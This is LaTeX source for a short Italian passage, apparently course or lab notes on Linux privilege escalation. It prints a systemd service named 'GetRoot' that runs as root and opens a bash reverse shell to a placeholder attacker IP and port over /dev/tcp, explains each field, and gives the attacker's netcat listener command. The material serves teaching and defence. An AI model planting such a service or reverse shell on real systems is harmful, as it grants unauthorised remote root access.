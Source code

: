 \documentclass{article}
\begin{document}
\begin{minipage}{0.45\textwidth}
\begin{verbatim}
[Unit]
Description=GetRoot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c ‘bash -i >& 
	/dev/tcp/IP-Attaccante/Porta 0>&1’
	
[Install]
WantedBy=multi-user.target
\end{verbatim}
\end{minipage}
\begin{minipage}{0.53\textwidth}
\begin{itemize}
	\item \textbf{Unit}: Descrive il servizio, il modo in cui è avviato, i processi che dipendono da esso o quelli da cui dipende, il modo in cui si relaziona al sistema. In questo caso è presente solo \verb|Description|, ovvero "GetRoot".\\
	
	\item \textbf{Service}: Descrive lo script eseguito e come viene eseguito. In questo caso, \verb|Type|, che indica il tipo di servizio, è impostato a \textbf{simple}, \verb|User|, che indica i permessi del servizio, è impostato a \textbf{root} e \verb|ExecStart|, che indica lo script da eseguire, comprende uno script che:
	\begin{enumerate}
		\item Avvia una \textbf{shell Bash} che aspetta ogni comando come \textbf{stringa} (vedi \verb|-c|);
		\item La Shell è avviata in modalità \textbf{interativa}, che quindi si comporta come un normale terminale (vedi \verb|-i|);
		\item Apre una \textbf{connessione TCP} verso l'host, tramite l'\verb|IP-Attaccante| e \verb|Porta|.
		\item Tramite \verb|>&|, ogni operatore reindirizza \textbf{stdout} e \textbf{stderr} verso la connessione TCP.
		\item Tramite \verb|0>&1|, ogni input viene reindirizzato verso la connessione TCP.
	\end{enumerate}
	
	\item \textbf{WantedBy}: Indica la cartella in cui viene collegato il servizio.
\end{itemize}
\end{minipage}

Una volta creato il servizio, l’attaccante cerca una directory o un file su cui può caricarne il contenuto. Sulla sua macchina, l'attaccante \textbf{si mette in ascolto}:
\begin{verbatim}
	nc -nlvp porta
\end{verbatim}
\end{document}
